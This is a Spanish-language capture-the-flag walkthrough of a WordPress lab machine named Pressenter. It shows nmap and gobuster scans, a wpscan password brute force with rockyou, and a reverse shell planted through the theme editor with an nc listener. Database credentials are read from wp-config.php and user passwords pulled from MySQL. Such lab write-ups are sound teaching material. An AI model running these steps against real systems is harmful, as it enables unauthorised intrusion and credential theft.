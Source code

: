 ```yaml
---
description: '✍️ Autor: d1se0  🔍 Dificultad: Fácil  📅 Fecha de creación: 29/08/2024'
---
```


# Pressenter

### 🔍 RECONOCIMIENTO

En primer lugar, tras conectarnos a la máquina, utilizamos el comando:

```bash
ping -c 1 172.17.0.2
```

para verificar la conectividad de red.

<figure><img src="../../.gitbook/assets/image (14).png" alt=""><figcaption></figcaption></figure>

A continuación, realizamos el comando:

```bash
nmap -sVC -p- -n --min-rate 5000 172.17.0.2
```

para realizar un escaneo de puertos y servicios detallado en la dirección IP.

<figure><img src="../../.gitbook/assets/image (773).png" alt=""><figcaption></figcaption></figure>

Como podemos observar durante el escaneo que el **puerto 80** perteneciente al **servicio HTTP** está abierto por lo que a continuación se indagará más.

### 🔎 EXPLORACIÓN

Se utiliza el comando:

```bash
sudo nmap -sCV -p80 -v 172.17.0.2
```

para que nos proporcione más información sobre esos puertos específicamente.

<figure><img src="../../.gitbook/assets/image (774).png" alt=""><figcaption></figcaption></figure>

Seguimos indagando más sobre los puertos y ahora indagamos sobre el **servicio HTTP**. Se ingresó la **dirección IP** en el navegador lo que llevó a que la página web de CTF (está algo fea) puede ser que sea un WordPress.

<figure><img src="../../.gitbook/assets/image (775).png" alt=""><figcaption></figcaption></figure>

Ahora buscaremos directorios y archivos con la herramienta **Gobuster** a través de:

```bash
gobuster dir -u http://172.17.0.2/ -w /usr/share/wordlists/dirbuster/directory-list-lowercase-2.3-medium.txt -x html,php,txt,xml
```

<figure><img src="../../.gitbook/assets/image (779).png" alt=""><figcaption></figcaption></figure>

Revisamos el código fuente y encontramos un dominio por lo que hay que añadirlo en el archivo `/etc/hosts`.

<figure><img src="../../.gitbook/assets/image (776).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/image (777).png" alt=""><figcaption></figcaption></figure>

Al ser un **WordPress** realizamos este comando para enumerar los usuarios y plugins.

```bash
wpscan --url http://pressenter.hl/ --enumerate u,vp
```

<figure><img src="../../.gitbook/assets/image (778).png" alt=""><figcaption></figcaption></figure>

Realizamos fuerza bruta a través de la misma herramienta.

```bash
wpscan --url http://pressenter.hl/ --passwords /usr/share/wordlists/rockyou.txt --usernames pressi,hacker
```

<figure><img src="../../.gitbook/assets/image (781).png" alt=""><figcaption></figcaption></figure>

Nos logueamos con esas credenciales.

<figure><img src="../../.gitbook/assets/image (780).png" alt=""><figcaption></figcaption></figure>

### 🚀 **EXPLOTACIÓN**

Estamos dentro vamos a la sección de **Herramientas** en concreto **Editor de archivos de temas** para subir la [**Reverse Shell**](https://www.revshells.com/).

<figure><img src="../../.gitbook/assets/image (782).png" alt=""><figcaption></figcaption></figure>

Al actualizar el archivo nos ponemos en escucha.

```bash
nc -lvnp 443
```

<figure><img src="../../.gitbook/assets/image (783).png" alt=""><figcaption></figcaption></figure>

Hacemos el [tratamiento de la TTY](https://invertebr4do.github.io/tratamiento-de-tty/) para trabajar más cómodos.

### 🔐 **PRIVILEGIOS**

Al estar dentro y ejecutar:

```bash
whoami
```

aún no somos **root**, por lo que hacemos:

```bash
sudo -l
```

para ver si hay algo para explotar. No tenemos permisos SUDO.

<figure><img src="../../.gitbook/assets/image (784).png" alt=""><figcaption></figcaption></figure>

Encuentro en el directorio `/tmp` un archivo que no se puede leer si no soy el usuario **mysql** por lo que voy a mostrar el contenido de **wp-config.php**.

<figure><img src="../../.gitbook/assets/image (785).png" alt=""><figcaption></figcaption></figure>

```
cat /var/www/pressenter/wp-config.php
```

<figure><img src="../../.gitbook/assets/image (787).png" alt=""><figcaption></figcaption></figure>

Encontramos un usuario y su contraseña.

```
mysql -u admin -p'rooteable' -h 127.0.0.1
```

<figure><img src="../../.gitbook/assets/image (788).png" alt=""><figcaption></figcaption></figure>

Indagamos a ver si encontramos información relevante.

```bash
show databases;
use wordpress;
show tables;
select * from wp_usernames;
```

<figure><img src="../../.gitbook/assets/image (789).png" alt=""><figcaption></figcaption></figure>

Encontramos las credenciales del usuario **enter**. Nos logueamos.

<figure><img src="../../.gitbook/assets/image (790).png" alt=""><figcaption></figcaption></figure>

En el directorio del usuario hay una flag probablemente en el directorio root puede haber algo parecido por lo que realizamos este comando para escalar privilegios.

```bash
sudo /usr/bin/cat /root/root.txt
```

<figure><img src="../../.gitbook/assets/image (791).png" alt=""><figcaption></figcaption></figure>

No tenemos suerte, voy a probar una solución más sencilla y es la misma contraseña sea para root.

<figure><img src="../../.gitbook/assets/image (792).png" alt=""><figcaption></figcaption></figure>

